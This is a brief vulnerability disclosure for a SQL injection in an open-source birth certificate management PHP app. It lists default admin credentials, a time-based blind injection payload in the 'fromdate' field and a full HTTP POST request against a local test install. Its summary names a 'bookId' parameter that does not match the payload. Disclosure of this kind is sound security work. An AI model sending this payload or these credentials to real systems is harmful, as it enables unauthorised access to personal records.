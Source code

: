 # Online Birth Certificate Management System - SQL injection

Online Birth Certificate Management System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /admin/application-bwdates-reports-details.php

username:admin password:admin123 ----> {ip}/admin/application-bwdates-reports-details.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/application-bwdates-reports-details.php has SQL injection

Payload: fromdate=0001-01-01'and(select*from(select+sleep(2))a/**/union/**/select+1)='

SQL injection because fromdate can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/13.png)

```sql
POST /CVE/OBCMS/admin/application-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 143
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/between-dates-report.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

fromdate=0001-01-01%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27&submit=&todate=0001-01-01
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/14.png)
